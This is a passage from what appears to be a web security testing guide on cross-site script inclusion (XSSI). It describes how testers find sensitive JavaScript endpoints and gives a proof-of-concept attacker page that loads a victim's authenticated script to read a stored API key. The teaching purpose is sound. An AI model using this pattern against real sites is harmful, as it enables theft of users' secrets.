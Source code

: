 Identify which endpoints are responsible for sending sensitive data, what parameters are required, and identify all relevant dynamically and statically generated JavaScript responses using authenticated user sessions. Pay special attention to sensitive data sent using [JSONP](https://en.wikipedia.org/wiki/JSONP). To find dynamically generated JavaScript responses, generate authenticated and unauthenticated requests, then compare them. If they're different, it means the response is dynamic; otherwise it's static. To simplify this task, a tool such as [Veit Hailperin's Burp proxy plugin](https://github.com/luh2/DetectDynamicJS) can be used. Make sure to check other filetypes in addition to JavaScript; XSSI is not limited to JavaScript files alone.

### Determine Whether the Sensitive Data Can Be Leaked Using JavaScript

Testers should analyze code for the following vehicles for data leakage via XSSI vulnerabilities:

1. Global variables
2. Global function parameters
3. CSV (Comma Separated Values) with quotations theft
4. JavaScript runtime errors
5. Prototype chaining using `this`

### 1. Sensitive Data Leakage via Global Variables

An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim's website, `victim.com`, which is only accessible to authenticated users. An attacker configures a website, `attackingwebsite.com`, and uses the `<script>` tag to refer to the JavaScript file.

Here are the contents of `https://victim.com/internal/api.js`:

```javascript
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

The attack site, `attackingwebsite.com`, has an `index.html` with the following code:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```
